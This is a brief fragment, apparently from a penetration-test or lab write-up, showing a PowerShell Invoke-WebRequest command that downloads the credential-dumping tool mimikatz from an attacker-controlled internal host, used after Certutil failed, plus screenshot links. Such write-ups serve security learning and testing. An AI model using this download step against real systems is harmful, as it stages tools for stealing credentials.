 The command below was used when Certutil failed
 Invoke-WebRequest -Uri http://10.10.10.17:8110/mimikatz.exe -OutFile C:\Users\app-svc\Downloads\mimikatz.exe

<img width="1016" height="508" alt="image" src="https://github.com/user-attachments/assets/7ec2d507-cbb3-4a59-a689-70524dcffb3b" />
